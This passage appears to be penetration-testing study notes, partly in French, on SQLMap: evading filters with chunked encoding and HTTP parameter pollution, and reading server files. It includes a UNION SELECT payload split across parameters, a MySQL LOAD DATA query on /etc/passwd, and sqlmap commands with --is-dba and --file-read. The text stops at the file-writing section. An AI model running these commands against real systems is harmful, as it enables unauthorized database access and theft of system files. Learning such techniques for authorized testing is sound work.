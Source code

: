 ***

### <mark style="color:blue;">Miscellaneous Bypasses</mark>

Out of other protection bypass mechanisms, there are also two more that should be mentioned. The first one is the `Chunked` transfer encoding, turned on using the switch `--chunked`, which splits the POST request's body into so-called "chunks." Blacklisted SQL keywords are split between chunks in a way that the request containing them can pass unnoticed.

The other bypass mechanisms is the `HTTP parameter pollution` (`HPP`), where payloads are split in a similar way as in case of `--chunked` between different same parameter named values (e.g. `?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...`), which are concatenated by the target platform if supporting it (e.g. `ASP`).

***

## <mark style="color:red;">**OS Exploitation avec SQLMap**</mark>

***

### <mark style="color:blue;">**1. Lecture et écriture de fichiers locau**</mark>**x**

#### <mark style="color:green;">**Lecture de fichiers locaux**</mark>

* Nécessite des privilèges spécifiques comme `LOAD DATA` et `INSERT` pour lire un fichier via SQL.
*   Exemple MySQL :

    ```sql
    LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
    ```
*   Vérification des privilèges DBA avec SQLMap :

    ```bash
    sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
    ```

    * Si `current user is DBA: True` : privilèges suffisants.
    * Sinon : certaines actions (comme la lecture de fichiers) échoueront.

**Commande SQLMap pour lire un fichier :**

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

* Résultat : Le fichier distant est téléchargé localement (`~/.sqlmap/output/...`).

***

#### <mark style="color:green;">**Écriture de fichiers locaux**</mark>
